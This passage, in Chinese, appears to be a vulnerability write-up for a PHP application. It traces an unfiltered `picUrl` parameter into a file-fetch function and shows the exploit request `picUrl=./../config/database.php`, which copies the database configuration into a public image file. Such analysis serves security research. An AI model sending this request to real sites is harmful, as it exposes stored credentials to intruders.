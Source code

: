 分析传入变量 `picUrl` 的 `wp_file_get_contents`方法

```
$content = wp_file_get_contents($picUrl);
```

函数文件位置 `application\common.php`

![image-20220518160112407](images/202205181601465.png)

可以看到这里没有对我们的参数进行过滤，只做了一个有关超时的操作, 回到函数继续向下分析

```
$picExt = substr($picUrl, strrpos($picUrl, '=') + 1);
if (empty($picExt) || $picExt == 'jpeg' || strpos('jpg,gif,png,jpeg,bmp', $picExt) === false) {
                $picExt = 'jpg';
}
$picName = NOW_TIME . uniqid() . '.' . $picExt;
$picPath = $savePath . '/' . $picName;
$res = file_put_contents($picPath, $content);
```

这里创建了有关当前时间的图片文件，并写入文件夹`/public/uploads/picture/` 下

我们先尝试控制变量 `$picUrl` 来写入数据库配置文件到图片中

```
/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php
```
